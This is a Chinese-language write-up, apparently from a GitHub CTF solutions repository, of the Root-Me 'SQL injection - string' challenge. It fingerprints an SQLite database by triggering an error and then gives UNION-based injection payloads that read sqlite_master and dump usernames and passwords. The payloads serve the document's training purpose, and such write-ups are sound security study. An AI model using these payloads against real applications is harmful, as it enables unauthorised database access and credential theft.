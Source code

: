 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[SQL injection - string](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-string)] [[解题报告](http://exp-blog.com/2019/03/10/pid-3544/)]

------


SQLi 水题。关键是找到注入点。

查看页面源码，发现这题其实是有 3 个页面的：

- [`?action=news`](http://challenge01.root-me.org/web-serveur/ch19/?action=news)
- [`?action=login`](http://challenge01.root-me.org/web-serveur/ch19/?action=login)
- [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche)

虽然三个页面都有数据库查询操作，但是测试发现注入点在 [`?action=recherche`](http://challenge01.root-me.org/web-serveur/ch19/?action=recherche) 页面。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/01.png)

------------

首先确认数据库类型，输入 payload ：`'exp error'` 故意不闭合引号，尝试令 SQL 报错。

通过页面回显的异常信息，可以确认是 SQLite3 数据库。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/02.png)

在 SQLite3 中只有一个系统隐藏表 sqlite_master ，其表结构如下：

```sql
CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
);
```

这张表存储了数据库中每个数据表的信息，可以通过它找到其他数据表。

构造跨表查询 payload ：`exp' or 1=1 union select name, sql from sqlite_master --`

从中找到账户表及其表结构 `users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/03.png)

进一步构造 payload 跨表查询 users 的账号信息：

`exp' or 1=1 union select username, password from users --`

得到 admin 的密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B33%5D%20%5B30P%5D%20SQL%20injection%20-%20string/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
